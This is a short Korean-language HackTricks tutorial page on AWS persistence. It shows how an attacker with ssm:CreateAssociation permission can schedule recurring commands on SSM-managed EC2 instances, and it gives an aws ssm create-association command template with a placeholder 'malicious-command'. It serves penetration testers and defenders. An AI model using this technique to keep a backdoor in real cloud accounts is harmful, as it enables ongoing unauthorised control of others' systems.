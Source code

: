 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### ssm:CreateAssociation을 사용한 지속성

ssm:CreateAssociation 권한이 있는 공격자는 SSM에 의해 관리되는 EC2 인스턴스에서 명령을 자동으로 실행하기 위해 State Manager Association을 생성할 수 있습니다. 이러한 연관성은 고정 간격으로 실행되도록 구성할 수 있어, 대화형 세션 없이 백도어와 같은 지속성에 적합합니다.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 이 지속성 방법은 EC2 인스턴스가 Systems Manager에 의해 관리되고, SSM 에이전트가 실행 중이며, 공격자가 연관성을 생성할 권한이 있는 한 작동합니다. 대화형 세션이나 명시적인 ssm:SendCommand 권한이 필요하지 않습니다. **중요:** `--schedule-expression` 매개변수(예: `rate(30 minutes)`)는 AWS의 최소 간격인 30분을 준수해야 합니다. 즉시 또는 일회성 실행을 위해서는 `--schedule-expression`을 완전히 생략하십시오 — 연관성은 생성 후 한 번 실행됩니다.

{{#include ../../../banners/hacktricks-training.md}}
